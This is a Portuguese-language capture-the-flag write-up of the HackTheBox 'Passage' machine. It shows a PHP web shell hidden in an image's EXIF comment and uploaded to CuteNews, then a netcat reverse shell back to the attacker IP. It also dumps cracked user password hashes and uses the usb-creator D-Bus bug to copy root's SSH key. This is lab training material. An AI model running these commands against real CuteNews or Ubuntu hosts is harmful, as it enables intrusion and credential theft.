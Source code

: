 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Passage - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/9iTXQiJ.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
exiftool
john
BurpSuite
netcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/6%OT=22%CT=1%CU=37302%PV=Y%DS=2%DC=T%G=Y%TM=5FF5BCD0
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=10A%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ(
OS:SP=10A%GCD=2%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 14.778 days (since Tue Dec 22 13:56:06 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=266 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   188.90 ms 10.10.14.1
2   189.09 ms passage.htb (10.10.10.206)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a porta 80, nos deparamos com um website.
![Image](https://i.imgur.com/grJc9Zf.png)


Ao analisar o código fonte, podemos perceber que o site está utilizando um CMS chamado 'CuteNews'.
![Image](https://i.imgur.com/ETMGKo8.png)


Acessando o diretório do CMS, encontramos uma página de login e a versão do CuteNews(2.1.2)
![Image](https://i.imgur.com/E6Wa1kL.png)


Como não temos credenciais válidas, vamos tentar realizar a criação de um novo usuário pelo botão de 'Register'
![Image](https://i.imgur.com/ipJ8Q6W.png)


Após conseguirmos o acesso inicial no CMS, podemos encontrar um campo de Upload de arquivos na página de edição do perfil do usuário, portanto, podemos tentar fazer o upload de um arquivo malicioso (:
![Image](https://i.imgur.com/crQgsxz.png)


Tentamos primeiro fazer upload de arquivos em php, porém, não foi possivel subir um arquivo com esta extensão...
Como é um campo de upload de 'Avatar' podemos deduzir que o campo aceitará imagens, então, vamos inserir um código malicioso dentro de nossa imagem. 
Para isso vamos utilizar o exiftool:

![Image](https://i.imgur.com/yECy7Qo.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
exiftool -Comment='<?php echo "<pre>"; system($_GET['chu']); ?>' chu.jpeg;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos conferir que conseguimos escrever o comentário dentro da imagem:
![Image](https://i.imgur.com/hHNNM0w.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
exiftool chu.jpeg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora vamos tentar fazer o upload.
Primeiro vamos ligar o BurpSuite para interceptar a requisição
![Image](https://i.imgur.com/SsZQS3v.png)

No burp podemos ver a extensão que está sendo enviada (.jpeg)
![Image](https://i.imgur.com/O2QrZkx.png)

Vamos altera-la para .php e encaminhar a requisição
![Image](https://i.imgur.com/gO1W4Nl.png)

Podemos perceber que a requisição foi bem sucedida

![Image](https://i.imgur.com/0CZunKi.png)

Agora basta acessarmos nosso arquivo para poder executar comandos no servidor, para isso vamos até o diretório de arquivos: http://passage.htb/CuteNews/uploads/avatar_chu_chu.php 
![Image](https://i.imgur.com/AXunvx1.png)

Conseguimos acessar nosso arquivo, agora podemos passar comandos pelo parametro pré definido, em meu caso 'cmd'.
Com isso temos uma execução de código remoto :D
![Image](https://i.imgur.com/RU7sxGJ.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://passage.htb/CuteNews/uploads/avatar_chu_chu.php?cmd=id
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao pesquisar pelo nc, podemos ver que ele está instalado, portanto, vamos tentar utiliza-lo.
![Image](https://i.imgur.com/5NgSWmB.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://passage.htb/CuteNews/uploads/avatar_chu_chu.php?cmd=whereis nc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos abrir uma porta em nossa máquina.

![Image](https://i.imgur.com/55Noqa6.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvnlp 1337
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora vamos enviar a conexão com o netcat
![Image](https://i.imgur.com/IrydT8Z.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://passage.htb/CuteNews/uploads/avatar_chu_chu.php?cmd=/bin/nc 10.10.14.238 1337 -e /bin/bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Image](https://i.imgur.com/FswUPdW.png)

w00t, estamos dentro!

Podemos melhorar nossa shell com python para ela se tornar interativa
![Image](https://i.imgur.com/KnYikce.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após um tempo procurando algo para escalar privilégios, podemos encontrar um arquivo chamado lines, no diretório: /var/www/html/CuteNews/cdata/users/lines
![Image](https://i.imgur.com/sxqmNKL.png)

Podemos perceber que está em base64, portanto vamos decodar. Para isso vamos utilizar o site [CyberChef](https://gchq.github.io/CyberChef/)

Após isso, temos uma saída mais limpa contendo algumas hashs:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

hashs:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nadav:7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
sid:4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
paul:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd >> cracked: atlanta1
kim:f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
egre55:4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc >> cracked: egre55
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Usando o site [Crackstation](https://crackstation.net/) tivemos sucesso quebrando 2 senhas.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
paul:atlanta1
egre55:egre55
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Listando a pasta /home podemos perceber que paul é um usuário válido, então tentamos acessa-lá:
E conseguimos!

![Image](https://i.imgur.com/ydajewv.png)


Após isso podemos encontrar chaves RSA para fazermos a conexão via SSH
![Image](https://i.imgur.com/7DgpU4z.png)


Agora podemos nos conectar via ssh :D
![Image](https://i.imgur.com/GSIodbP.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh paul@passage.htb -i id_rsa_paul
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após melhorar nossa conexão usando o SSH, analisando melhor a pasta /home/paul/.ssh/ podemor perceber que existe um arquivo de autorização (authorized_keys)...
dentro dele temos uma chave pública.
![Image](https://i.imgur.com/YrgxUDa.png)


Então agora logamos como 'nadav'

![Image](https://i.imgur.com/G7Ko2Uy.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh nadav@passage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora logados como 'nadav', começamos a procurar um maneira de escalar privilégios.
![Image](https://i.imgur.com/n3aPLv7.png)

Ao analisar os processos rodando como root, pude perceber que existe um processo chamado: 'usb-creator-helper'
![Image](https://i.imgur.com/RxRhFul.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ps aux | grep root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

O [Artigo](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) nos da uma boa pista(até o nome do user \o/)

Com isso, podemos obter a chave RSA do root.
![Image](https://i.imgur.com/RsLZba2.png)
Podemos perceber que o arquivo é criado como root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/chu/chu.txt true
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora basta logarmos usando a chave
![Image](https://i.imgur.com/9UCzj7K.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh root@passage.htb -i id_rsa_root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


My references:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://www.exploit-db.com/exploits/48458
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
